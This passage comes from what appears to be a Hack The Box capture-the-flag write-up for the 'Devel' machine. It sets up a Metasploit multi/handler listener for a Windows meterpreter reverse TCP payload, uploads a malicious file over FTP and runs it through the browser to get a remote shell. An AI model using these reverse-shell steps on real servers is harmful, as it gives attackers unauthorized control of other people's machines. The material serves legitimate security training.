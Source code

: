 ### 2. Metasploit multi/handler

We set a listener that can handle a **meterpreter** session:

```bash
$ msfconsole
msf6 > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 > use exploit/multi/handler 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
```

### 3. Meterpreter sesssion

Upload the malicious file we prepared via `ftp`

![ftp put meterpreter](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/devel/ftp-put-meterpreter.png)

Open it from browser so that it can be executed on the server side and pops us a meterpreter:

![meterpreter session](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/devel/meterpreter-session.png)

I used `run -j` to run meterpreter session in background while I'll use **suggester**.
